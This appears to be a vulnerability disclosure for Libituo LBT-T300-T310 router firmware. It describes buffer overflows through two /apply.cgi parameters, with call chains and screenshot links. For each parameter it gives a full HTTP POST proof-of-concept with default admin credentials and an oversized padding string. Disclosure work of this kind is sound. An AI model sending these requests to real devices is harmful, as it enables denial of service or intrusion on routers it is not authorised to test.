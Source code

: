 ﻿# LBT-T310 Buffer Overflow
**Vulnerability description**
Shenzhen Libituo Technology Co., Ltd LBT-T300-T310 v2.2.2.6 was discovered to contain a buffer overflow via multiple s parameters at /apply.cgi.

## 1.ApCliAuthMode

### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliAuthMode parameter, a buffer overflow vulnerability is created.
function call chain
Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5860fcd7934499a8682a15e826b797e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPENAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

## 2.ApCliEncrypType
### Vulnerability analysis
Due to the lack of data length restrictions of the ApCliEncrypType parameter, a buffer overflow vulnerability is created.
function call chain
Main()->sub_40BEC8()->start_single_service()->start_workmode()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()->makeCurRemoteApList ().
![在这里插入图片描述](https://img-blog.csdnimg.cn/8316e2625c1b41d3a8dee38af221a239.png

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3fc42eb40440bf94d969296e821661.jpeg)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4610d34c5a3e4a33ac5f636999476fe0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/183c41b8e5b548d6bbacd5ca9f1b3554.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/def3469bfe73490685f78cf760c10297.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ba62a4e5544940b2549fa8e6b1bd7a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/124334394a244e4fb743a02b39bc38f0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5be9ceedeb1147aa845856fded4628a9.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b840a93b51b6481ab3253a9ebd8bf232.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b589d5287c0e489c8e28b863269a9eaf.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e033574277f4196a07307376d75f9a6.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/79fb883d8bd14b2396224c17171e1208.png)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/apclient_scan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID&ApCliAuthMode=OPEN&ApCliEncrypType=NONEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

```

